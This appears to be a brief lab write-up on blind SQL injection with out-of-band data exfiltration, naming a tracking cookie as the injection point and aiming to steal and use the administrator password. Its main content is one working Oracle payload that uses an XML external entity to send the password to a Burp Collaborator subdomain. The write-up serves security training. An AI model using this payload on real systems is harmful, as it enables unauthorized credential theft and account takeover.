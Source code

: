 # Lab: Blind SQL injection with out-of-band data exfiltration

vulnerable parameter : tracking cookie

End Goals:

1- exploit sqli to output the password of the administrator user
2- Login as  admin

analysis :

`' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "https://'||(SELECT password from users where username ='adminstrator')||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual)`
